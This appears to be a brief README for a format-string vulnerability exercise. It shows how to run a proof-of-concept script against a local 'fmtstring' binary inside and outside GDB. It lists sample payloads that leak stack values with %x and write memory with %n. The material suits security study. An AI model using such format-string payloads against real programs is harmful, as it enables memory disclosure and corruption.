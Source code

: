 # Usages

Inside GDB: `run $(./poc.py)`

Outside GDB: `./fmtstring $(./poc.py)`

Other things to try!
(outside of GDB)
`./fmtstring AAAA.%4$x`
`./fmtstring AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`

(inside of GDB)
`r 'AAAA.%x%x%16x%n`
